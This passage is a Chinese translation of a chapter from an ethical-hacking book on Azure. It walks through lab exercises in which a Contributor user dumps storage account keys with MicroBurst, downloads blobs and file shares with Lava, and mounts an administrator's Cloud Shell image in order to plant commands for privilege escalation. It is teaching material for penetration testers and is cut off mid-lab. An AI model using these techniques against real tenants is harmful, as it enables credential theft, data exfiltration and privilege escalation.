### 6
利用 PaaS 服务上的 Contributor 权限

在上一章中，我们探讨了如何使用 Contributor 角色来利用 Azure 资源进行以 **Infrastructure as a Service (IaaS)** 为中心的场景。我们重点介绍了如何利用 Contributor 角色的凭据将权限提升到 Azure RBAC Owner 角色、搜寻其他凭据以及从虚拟机中窃取数据。在本章中，我们将探讨如何为 **Platform as a Service (PaaS)** 场景实现类似目标。本章中一些通用概念会重叠，但我们将重点关注这些概念在应用于 PaaS 场景时的不同之处。

在本章中，我们将涵盖以下主要主题：

- 为 Contributor（PaaS）利用场景做准备
- 攻击存储账户
- 从密钥库中掠夺密钥、机密和证书
- 利用 Web 应用进行横向移动和权限提升
- 从自动化账户中提取凭据

#### 为 Contributor（PaaS）利用场景做准备

要跟随本章的练习，你需要在自己的 Azure 订阅中设置一个具有 Contributor 权限的用户和一些易受攻击的工作负载配置。如同之前的章节，我们已使用 PowerShell 脚本来自动化此过程，你可以从 Azure Cloud Shell 运行。在继续之前，请确保你已运行清理脚本以删除之前章节的资源。这将帮助我们避免任何脚本执行异常。

以下是本练习中我们将完成的任务：

- **Task 1**：创建具有 Contributor 权限的测试用户账户。
- **Task 2**：为所有场景部署易受攻击的工作负载。

让我们开始：

1. 打开一个 Web 浏览器并浏览到 https://portal.azure.com 上的 Azure 门户。使用你的 azureadmin 凭据登录。
2. 在 Azure 门户中，单击右上角的 Cloud Shell 图标。选择 PowerShell：


图 6.1 – 单击图标打开 Cloud Shell

3. 在 Cloud Shell 窗格内的 PowerShell 会话中，运行以下命令下载用于创建具有 Contributor 权限的用户账户并设置所需易受攻击工作负载的脚本。通过列出目录内容来验证下载：

```
PS C:\> Invoke-WebRequest http://bit.ly/contributor-paas-scenarios -O contributor-paas-scenarios.ps1
PS C:\> Get-ChildItem
```

以下是缩短 URL 指向的目标 GitHub URL：https://raw.githubusercontent.com/PacktPublishing/Penetration-Testing-Azure-for-Ethical-Hackers/main/chapter-6/resources/contributor-paas-scenario.ps1。

以下是其外观的屏幕截图：



图 6.2 – 下载 Contributor PaaS 场景脚本

4. 运行下载的脚本以使用以下命令为本章练习配置所需的对象和资源：

```
PS C:\> ./contributor-paas-scenarios.ps1
```

在提示输入密码时，输入 myPassword123 并按 Enter。等待脚本部署完成。部署可能需要大约八分钟才能完成：



图 6.3 – 运行 Contributor IaaS 场景脚本

##### 脚本做了什么？

脚本在 Azure 订阅中创建具有 Contributor 权限的用户账户。脚本还设置了图 6.4 中显示的资源和对象：

- 具有关联托管标识的 Web 应用
- Azure SQL 数据库和具有防火墙规则的 Azure 存储
- 具有机密、密钥和证书的 Azure Key Vault
- 一个 Azure Automation 账户
- 一台 Ubuntu Linux VM：



图 6.4 – Contributor PaaS 利用场景

5. 脚本完成后，你将需要在本练习其余部分使用的关键信息会显示在输出部分。将信息复制到记事本文档以供日后参考。你需要从输出部分获取四个值：

**Azure Contributor User**：这是对 Azure 订阅具有 Contributor 权限的 Azure 管理员用户名。

**Azure Contributor User Password**：这是 Azure Contributor 管理员用户的密码。


Linux VM FQDN：用于在其中一个练习中挂载映像的 Linux VM 的 FQDN。这是必需的，因为 PentestVM 上实现的 WSL 尚不支持此功能。

Linux VM 密码：这是用于在其中一个练习中挂载映像的 Linux VM 的密码：



图 6.5 – 获取脚本输出

现在，你已经成功创建了本章后续练习将使用的资源。本章中我们将探索的第一个资源是存储帐户。

#### 攻击存储帐户

Azure 存储帐户是 Azure 中的主要数据存储解决方案。其他 Azure 服务（例如应用服务和容器注册表）在后端依赖它进行数据存储。该解决方案本身提供了五项服务，可用于存储不同类型的数据集，包括非结构化应用程序数据对象（Azure Blob 存储）、NoSQL 存储中的半结构化应用程序数据（Azure 表存储）、云中的托管文件共享（Azure 文件）、用于可靠消息传递的消息存储（Azure 队列存储），以及用于大数据工作负载的数据湖（Azure Data Lake Storage Gen2）。可想而知，这项服务是攻击者的首要目标！就本章而言，我们将重点关注 Azure Blob 存储和 Azure 文件：



图 6.6 – Azure 存储

Contributor 角色有权读取和修改此服务管理平面上的任何配置（向其他用户分配权限除外），但基于 RBAC 权限，它并不固有地拥有读取或修改数据平面中数据的权限（图 6.7）。这听起来可能令人困惑，但请注意，Contributor 角色策略文档并未指定任何 dataActions 权限：

```
"permissions": [
  {
    "actions": [
      "*"
    ],
    "notActions": [
      "Microsoft.Authorization/*/Delete",
      "Microsoft.Authorization/*/Write",
      "Microsoft.Authorization/elevateAccess/Action",
      "Microsoft.Blueprint/blueprintAssignments/write",
      "Microsoft.Blueprint/blueprintAssignments/delete",
      "Microsoft.Compute/galleries/share/action"
    ],
    "dataActions": [],
    "notDataActions": []
  }
]
```

角色可以做什么

角色不能做什么

默认情况下，该角色在数据平面上没有任何权限

图 6.7 – Azure Contributor 权限

Azure AD 标识需要被授予额外的 dataActions 权限（例如图 6.8 中列出的权限），才能使用 Azure AD 访问令牌访问数据平面。随着 Microsoft 越来越倾向于通过 Azure RBAC 公开服务数据平面访问权限的这种模式，在 Azure 中利用服务数据平面的机会将会更多，而无需转向其他选项：

|  | 角色 | 说明 |
|---|---|---|
| ☐ | Storage Blob Data Contributor | 允许对 Azure 存储 blob 容器和数据进行读取、写入和删除访问 |
| ☐ | Storage Blob Data Owner | 允许对 Azure 存储 blob 容器和数据进行完全访问，包括分配 POSIX 访问控制 |
| ☐ | Storage Blob Data Reader | 允许对 Azure 存储 blob 容器和数据进行读取访问 |
| ☐ | Storage File Data SMB Share Contributor | 允许通过 SMB 对 Azure 存储文件共享进行读取、写入和删除访问 |
| ☐ | Storage File Data SMB Share Elevated Co... | 允许通过 SMB 对 Azure 存储文件共享进行读取、写入、删除以及修改 NTFS 权限访问 |
| ☐ | Storage File Data SMB Share Reader | 允许通过 SMB 对 Azure 文件共享进行读取访问 |
| ☐ | Storage Queue Data Contributor | 允许对 Azure 存储队列和队列消息进行读取、写入和删除访问 |
| ☐ | Storage Queue Data Message Processor | 允许对 Azure 存储队列消息进行查看、接收和删除访问 |
| ☐ | Storage Queue Data Message Sender | 允许发送 Azure 存储队列消息 |
| ☐ | Storage Queue Data Reader | 允许对 Azure 存储队列和队列消息进行读取访问 |

图 6.8 – Azure 存储相关角色

从攻击的角度来看，我们可以利用管理平面上的权限来获取可用于访问数据平面中存储的数据的密钥和/或令牌。我们可以利用的管理平面权限如下：

- `Microsoft.Storage/storageAccounts/listkeys/action`：允许 Contributor 角色读取存储帐户的访问密钥。这些访问密钥可提供对数据平面的完全访问权限。
- `Microsoft.Storage/storageAccounts/listAccountSas/action`：允许 Contributor 角色在存储帐户级别生成用于数据平面访问的 SAS 令牌。
- `Microsoft.Storage/storageAccounts/listServiceSas/action`：允许 Contributor 角色在服务级别生成用于数据平面访问的 SAS 令牌。

值得注意的是，我们在*第 4 章，利用读者权限*中介绍的 READER 角色不具备这些权限。

诸如 MicroBurst 和 Lava 之类的攻击工具会利用上述权限大规模列出这些存储帐户密钥，然后可以使用这些密钥下载存储帐户服务的内容。另外，如果你想知道为什么具有 Contributor 权限的用户在使用 Azure 门户时能够列出存储帐户中的对象，那是因为门户利用 Contributor 的权限来访问存储帐户密钥，然后使用基于密钥的身份验证在门户中显示数据。切换到 Azure AD 授权将显示 Contributor 和 Owner 角色默认没有 dataActions 权限。

在下一节中，我们将使用 MicroBurst 工具包来收集订阅中存储帐户的这些密钥。

#### 动手实验 – 使用 MicroBurst 转储 Azure 存储密钥

以下是我们在本练习中要完成的任务：

- **任务 1：** 使用 MicroBurst 大规模提取存储帐户密钥。
- **任务 2：** 使用 Azure Storage Explorer 浏览和下载存储帐户数据。

6. 使用 Get-AzPasswords 函数对 Azure 存储实例执行全面转储。该函数也可用于提取其他 PaaS 服务的数据平面密钥，但我们暂时通过为这些参数使用 N 选项来排除这些服务：

```
Get-AzPasswords -AutomationAccounts N -AppServices N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView
```

7. 当提示选择 Azure 订阅时，选择你的测试 Azure 订阅，然后单击“确定”：



图 6.11 - 选择适当的订阅

8. 在生成的输出中，你应该会看到从存储帐户中转储的凭据。这些凭据可用于访问这些服务以窃取数据或搜寻其他凭据。在输出窗口中，查找名称格式为 privstoreXXXXXX 的存储帐户。使用 Ctrl + C 复制其中一行：



图 6.12 - MicroBurst 存储帐户密钥输出

9. 在 Pentest VM 中，打开 PowerShell 提示符并使用以下命令安装 Azure Storage Explorer：

```
choco install microsoftazurestorageexplorer -y
```

以下是命令的输出：



图 6.13 – 安装 Azure Storage Explorer

10. 在 Pentest VM 中，单击“开始”按钮，搜索“Storage Explorer”，然后选择“Storage Explorer”选项：



图 6.14 – 打开 Storage Explorer

11. 在“连接到 Azure 存储”窗口中，选择“存储帐户”：



图 6.15 – 添加存储帐户

12. 在“选择身份验证方法”窗口中，选择“帐户名称和密钥”，然后单击“下一步”：



图 6.16 – 选择帐户名称和密钥


13. 在“输入连接信息”窗口中，输入以下信息：

显示名称：来自本练习第 8 步的账户名称

账户名称：来自本练习第 8 步的账户名称

账户密钥：来自本练习第 8 步的账户密钥

单击“下一步”：



图 6.17 – 使用访问密钥进行身份验证

14. 在“摘要”窗口中，单击“连接”。

15. 查看这些文件，并注意我们现在可以持久访问存储账户及其所有服务的内容。这为攻击者提供了很大的破坏空间。例如，攻击者可以在勒索软件攻击中加密服务中的数据、向 NoSQL 表存储注入恶意数据，或通过存储队列对应用程序投毒：

##### 图 6.18 – 访问存储账户中的敏感信息

虽然本练习不会使用 Lava，但值得注意的是，Lava 有一个名为 stg_blob_download 的模块，可以自动利用此场景下载 Azure 订阅中的所有 blob 容器（图 6.19）：

```
Lava $> exec_stg_blob_download
[+] getting storage accounts in subscription... [+]
[+] getting the account names [+]
[+] getting the resource group names [+]
[+] getting the storage endpoint names [+]

[+] getting the account keys [+]
[+] getting the storage containers [+]
[+] starting download [+]
[+] files will be saved to /tmp/c2653a362426ec0697ec85a9315828a3 [+]

1/57: "CREDITS.txt"[#####################################]
2/57: "assets/css/font-awesome.min.css"[#####################################]
3/57: "assets/css/main.css"[#####################################]
4/57: "assets/fonts/FontAwesome.otf"[#####################################]
5/57: "assets/fonts/fontawesome-webfont.eot"[#####################################]
```

##### 图 6.19 – 使用 Lava 下载 blob 文件

请注意，某些存储容器可能包含大量数据，因此运行此 Lava 模块存在一定风险。在开始下载整个容器之前，请确保你了解将要下载的内容。在渗透测试项目中，这一点需要格外小心，因为账户中可能存在个人身份信息（PII）。

既然我们已经了解了如何保持与存储账户的连接，接下来，让我们在存储账户的范畴内转换思路，攻击 Cloud Shell 存储文件以实现权限提升。

#### 攻击 Cloud Shell 存储文件

如果你一直在跟做本书的示例，你应该对 Azure Cloud Shell（基于浏览器的命令行界面）非常熟悉。但如果我们告诉你，让你使用这个 shell 实际上是在为你埋下失败的伏笔呢？我们知道，你对我们作者寄予了极大的信任，如果我们辜负了这份信任，我们深表歉意。那么，让我们花点时间，通过向你展示如何利用这个你自己创建的脆弱环境，从当前情况中吸取教训。

当你第一次以 azureadmin 用户身份使用 Cloud Shell 时，系统会提示你在存储账户的文件服务中创建一个文件共享。如果你选择了默认选项，平台会自动创建一个名称前缀为 cs 的专用存储账户来托管该文件共享（图 6.20）。你也可以选择使用现有存储账户来托管此共享。



图 6.20 – Cloud Shell 存储账户示例

存储账户中的这个文件共享服务用于跨会话持久保存数据。创建后，它会被自动挂载为用户后续 Cloud Shell 会话中 $Home 目录下的 clouddrive 文件夹。你可以通过在 Cloud Shell（Bash 或 PowerShell）中运行 ls 命令来验证这一点，如图 6.21 所示：



图 6.21 – Cloud Shell 会话中挂载的文件共享

但这个文件共享背后又是什么呢？该共享以 .img 文件的形式存储一个 EXT2 文件系统。

共享名称和镜像文件名通常能够表明 Cloud Shell 所关联的 Azure AD 用户。在图 6.22 中，我们可以看到 cs-azureadmin-azurepentesting-com-1003200107d764bc 文件共享包含 acc_azureadmin.img 文件（位于 .cloudconsole 文件夹下）。可以将此信息与 Azure AD/RBAC 侦察结果相关联，以确定该 shell 的用户是否被授予了特权权限。



图 6.22 – Cloud Shell 文件示例

那么，这里的攻击场景是什么呢？如前所述，每次启动时，这个 IMG 文件都会被挂载到用户 Cloud Shell 会话的主目录。由于 Contributor 角色拥有（通过存储账户密钥）下载此 IMG 文件的权限，我们可以利用该访问权限将 IMG 文件下载并挂载到 Linux 系统上。

此时，我们既可以读取文件中的任何敏感信息，也可以修改文件，使其在目标账户下次挂载时运行命令。如果我们锁定正确的账户，就有机会在权限更高的用户（如 Azure AD 全局管理员或订阅所有者）的 Cloud Shell 会话中运行命令，从而实现权限提升。

> **重要说明**
> 有关此攻击原始研究的完整文章，请参阅以下 NetSPI 博客：https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-cloud-shell/。

在下一个练习中，我们假设你已经按照说明在 Cloud Shell 中运行了所有环境设置脚本。至少，我们假设你已经为一直在使用的 azureadmin 用户账户设置好了 Cloud Shell 存储账户。

#### 动手实验 – 使用 Cloud Shell 账户提升权限

在本实验中，我们将利用 Cloud Shell 卷镜像，在特权用户使用 Cloud Shell 时，以该用户的权限运行敏感命令。我们将介绍的过程分为四个步骤，如图 6.23 所示。首先，下载权限更高的用户的 Cloud Shell 卷镜像；然后，将镜像挂载到之前部署的 Linux VM 上；接着，植入我们希望运行的命令，并重新上传回 Cloud Shell 文件共享。



图 6.23 – Cloud Shell 文件示例

本实验将完成以下任务：

- 任务 1：使用 Lava 大规模扫描 Azure 文件共享。
- 任务 2：使用 Lava 下载 Azure 文件共享中的文件。
- 任务 3：利用 Cloud Shell 镜像并将其重新上传。
- 任务 4：验证权限提升利用。

以下是完成这些任务的步骤：

- 1. 在到你的 Pentest Windows VM 的 RDP 会话中，以管理员身份打开 PowerShell。
- 2. 在 PowerShell 控制台中，键入以下命令，通过 SSH 登录之前创建的 pentest Linux VM。将 <linux_FQDN> 替换为之前脚本输出中 Linux VM FQDN 的值。当提示确认主机真实性时，键入 yes 并按 Enter。当提示输入密码时，输入之前脚本输出中 Linux VM Password 的值。
- 3. 在 pentest Linux VM 的 Bash shell 中，使用以下命令切换到 root 用户：
- 4. 使用以下命令，通过 Azure CLI 以 Contributor 用户身份向 Azure 进行身份验证。将 <domain_name> 替换为你的 Azure AD 域名。同时，将 <contributor_user_password> 替换为 contributoruser 账户的密码：

```
ssh pentestadmin@<linux_FQDN>
```

以下是命令及其输出的截图：



图 6.24 – SSH 登录 Linux VM

```
pentestadmin@ptlinuxvm:~# sudo su -
```

```
az login -u contributoruser@<domain_name> -p <contributor_user_password>
```

以下是输出的截图：



图 6.25 – 从 Linux VM 使用 Azure CLI 登录

5. 使用以下命令下载并运行 Lava：

```
git clone https://github.com/mattrotlevi/lava.git
```

```
cd lava/
```

```
python3 lava.py
```

以下是输出的截图：



图 6.26 – Lava 命令的输出


6. 使用以下命令验证当前用户和权限：

```
exec_priv_show
```

从输出中可以看到，该用户仅拥有 Contributor 角色分配：



图 6.27 – Lava 中显示的 Contributor 用户权限

7. 扫描 Azure 订阅中的文件共享，以查找潜在的 Cloud Shell 镜像。可以使用以下 Lava 命令执行此操作：

```
exec_stg_file_scan
```

此命令利用对访问密钥的访问权限来扫描 Azure 订阅中的文件共享。可以看到，我们有一个供 Azure Cloud Shell 使用的文件共享：



图 6.28 – Lava 识别敏感文件

8. 使用以下命令下载 Azure 文件共享中的文件。我们假设您是在一个隔离的 Azure 环境中执行此练习，该环境只有少数几个文件共享。在具有多个文件共享的环境中运行上述命令可能需要很长时间才能完成：

```
exec_stg_file_download
```

这会将文件下载到 pentest Linux VM 上的临时目录中。请记下以下截图中突出显示的下载位置：



图 6.29 – 使用 Lava 下载的 Cloud Shell 文件

9. 下载完成后，使用 exit 命令退出 Lava：

```
exit
```

10. 回到 Bash shell，使用以下命令挂载下载的镜像文件。将 `<download_location>` 替换为本练习步骤 8 中记下的下载路径：

```
mount <download_location>/.cloudconsole/acc_azureadmin.img /mnt
```

以下是相关截图：



图 6.30 – 在 Linux VM 中挂载 acc_azureadmin.img 文件

11. 键入以下命令并按 Tab 键，浏览已挂载的驱动器：

```
ls /mnt/
```

